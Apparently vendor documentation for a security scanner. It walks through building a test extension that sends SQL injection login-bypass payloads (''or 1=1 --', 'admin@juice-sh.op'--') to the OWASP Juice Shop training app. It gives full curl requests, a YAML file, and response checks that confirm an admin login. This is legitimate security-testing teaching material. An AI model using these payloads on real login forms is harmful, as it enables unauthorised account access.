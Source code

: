 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md#working-with-the-host-header
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project



#   Creation of Nonmodifying Extension

The extension described in this document will not modify an incoming baseline request to inject some payload into. Instead, the two predefined test requests will be sent to the host that is specified in the baseline request. These test requests contain payloads that could lead to exploitation of the SQLi vulnerability in the [“OWASP Juice Shop”][link-juice-shop] target application's login form.


##  Preparations

It is highly recommended to [investigate the target application's behavior][link-app-examination] prior to creation of the FAST extension.


##  Constructing the Extension

Create a file that describes the extension (e.g., `non-mod-extension.yaml`) and populate it with the required sections:

1.  [**The `meta-info` section**][link-meta-info].

    Prepare the description of the vulnerability that the extension will try to detect.
    *   vulnerability header: `OWASP Juice Shop SQLi (non-mod extension)`
    *   vulnerability description: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    *   vulnerability type: SQL injection
    *   vulnerability threat level: high
<br><br>
    
    The corresponding `meta-info` section should look as follows:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **The `send` section, the [Send phase][doc-send-phase]**

    There are two payloads that should be sent as an `email` parameter value alongside any `password` value in order to exploit the SQL injection vulnerability in the target application:
    *   `'or 1=1 --`
    *   `admin@juice-sh.op'--`
    
    You can craft two test requests, each containing
    *   the `email` parameter with one of the values described above and 
    *   the `password` parameter with an arbitrary value.

    It is sufficient to use just one of these requests to test our example target application (OWASP Juice Shop).
    
    However, having a set of several prepared test requests may be useful when conducting the security testing of a real application: if one of the requests can not exploit a vulnerability anymore thanks to updates and improvements in the application, then there will be other test requests available that may still exploit the vulnerability because of other payloads in use.

    The request with the first payload from the list above is similar to this one:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    The second request looks like the first one:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    Add the `send` section containing the descriptions of these two test requests:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    <!-- -->
    >   #### Info:: A note about the `Host` header
    >   
    >   The `Host` header can be omitted in these requests because it does not influence the exploitation of this particular SQLi vulnerability. A FAST node will automatically add the `Host` header extracted from an incoming baseline requests.
    >   
    >   Read [here][link-send-headers] about how the Send phase handles request's headers.
    <!-- -->

3.  **The `detect` section, the [Detect phase][doc-detect-phase]**.
    
    The following conditions indicate that the user authentication with administrator's rights was successful:
    *   The presence of the shopping cart identifier parameter with the `1` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
        "bid":1
        ```
    
    * The presence of the user email parameter with the `admin@juice-sh.op` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Add the `detect` section that checks whether the attack was successful according to the conditions described above.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
<!-- -->
>   #### Info:: Escaping the special symbols
>   Remember to escape the special symbols in the strings.
<!-- -->

##  The Extension File

Now the `non-mod-extension.yaml` file contains a complete set of the sections required for the extension to operate. The list of the file's contents is shown below:

{% collapse title="non-mod-extension.yaml" %}
```
meta-info:
  - type: sqli
  - threat: 80
  - title: 'OWASP Juice Shop SQLi (non-mod extension)'
  - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

send:
  - method: 'POST'
    url: '/rest/user/login'
    headers:
    - 'Content-Type': 'application/json'
    body: '{"email":"''or 1=1 --","password":"12345"}'
  - method: 'POST'
    url: '/rest/user/login'
    headers:
    - 'Content-Type': 'application/json'
    body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

detect:
  - response:
    - body: "\"umail\":\"admin@juice-sh.op\""
    - body: "\"bid\":1"
```
{% endcollapse %}


##  Using the Extension

For detailed information about how to use the created expression, read [this document][link-using-extension].